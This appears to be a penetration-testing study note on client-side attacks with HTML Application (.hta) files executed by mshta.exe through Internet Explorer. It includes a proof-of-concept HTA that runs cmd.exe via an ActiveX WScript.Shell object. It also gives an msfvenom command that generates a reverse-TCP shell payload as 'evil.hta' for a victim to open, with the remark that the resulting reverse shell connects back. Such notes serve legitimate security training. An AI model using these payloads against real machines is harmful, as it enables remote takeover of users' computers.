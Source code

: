 

If an **.hta** extension is used rather than an **.html**, IE will automatically interpret is as an HTML App and offer the ability to execute it in **mshta.exe**  
  
HTML Apps allow arbitrary execution of apps directly from IE rather than downloading and manually running the executable.  
(Since this clashes w/ security boundries in the browser, an **.hta** is always executed outside of the security context of the browser)  
  
  
**Only works against IE (&, to some extent, MS Edge)  
Built into WinOS  
Compatible w/ less secure MS legacy web tech, like ActiveX  
  
  
Example POC script:  
```html
<html>  
<head>  
  
<script>  
  
var c = 'cmd.exe'  
new ActiveXObject('WScript.Shell').Run(c);  
  
</script>  
  
</head>  
<body>  
  
<script>  
  
self.close();  
  
</script>  
  
</body>  
</html>
```

*While **mstha.exe** is executing, it keeps an additional window open behind the cmd prompt.  
- Use the _**self.close()**_ method to prevent that.  
  
  
Use **msfvenom** to create a reverse tcp payload based off of _hta-powershell_  
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<local_ip> LPORT=<local_port> -f hta-psh -o /var/www/html/evil.hta
```

  
Once run from the Windows victim machine, the reverse shell will connect.  
  
There's verbiage in the materials that suggests that this won't work for MS Edge users, but mine ran fine